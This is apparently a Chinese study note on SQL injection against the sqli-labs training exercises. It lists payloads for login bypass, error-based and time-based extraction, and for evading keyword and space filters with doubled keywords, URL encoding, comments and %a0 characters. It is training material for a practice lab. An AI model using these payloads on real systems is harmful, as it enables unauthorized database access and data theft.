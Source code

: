 ```select name,pass from tbAdmin where name='admin' or 1=1#' and pass='123456' ```
http://www.xxx.com/Show.asp?id=77&nameid=2905210001&page=1

2）清除缓存：比如

http://www.xxxxx.com/index.html

http://www.xxxxx.com/index.html?test123123

两个url打开的页面一样，但是后面这个有问号，说明不调用缓存的内容，而认为是一个新
地址，重新读取。

 	&

不同参数的间隔符

所以，**要对 && 字符，进行 url 编码**,比如

**1' %26%26 1=1 --+**

php 一般通过如下函数获取get参数，此时 $id 已对 url 解码 将 **%26%26** 还原为 **&&**

	$id=$_GET['id'];


大小写：Or、oR

重复：oorr、anandd

符号：&&、||

各种编码：0x.....、unicode

?id=1' oorr extractvalue(1,concat('~',database()))--+


	if (mid((select schema_name from information_schema.schemata limit 0,1),1,1)='i',sleep(1),0)

如果or被过滤，还应注意，表名是否含有被屏蔽的关键字，比如 infoorrmation_schema


#### 过滤空格

1. ```/**/```

2. ```/*%aa*/```    中文字符配合注释符bypass  通过union+“特殊字符”+select拼出一个新字符串，让正则认为这是个类似unionxxooselect这种，而不是union select 。 这样就能bypass检测

eg  ```union/*中文字符*/select```   还要保证这种中文字符不能构造一个汉字

过滤sql注入的正则：

	$id= preg_replace('/union\s+select/i',"", $id);

因为%a0的特性，在sql语句过滤的正则匹配时，匹配到它时是识别为中文字符的，所以不会被过滤掉，但是在进入SQL语句后，Mysql是不认中文字符的，所以直接当作空格处理，就这样，我们便达成了Bypass的目的，成功绕过空格+注释的过滤

如26关
![](Less-26.jpg)

[sql绕空格](https://lyiang.wordpress.com/2015/05/31/sql%E6%B3%A8%E5%85%A5%EF%BC%9A%E7%BB%95%E8%BF%87%E7%A9%BA%E6%A0%BC%E6%B3%A8%E5%85%A5/)


```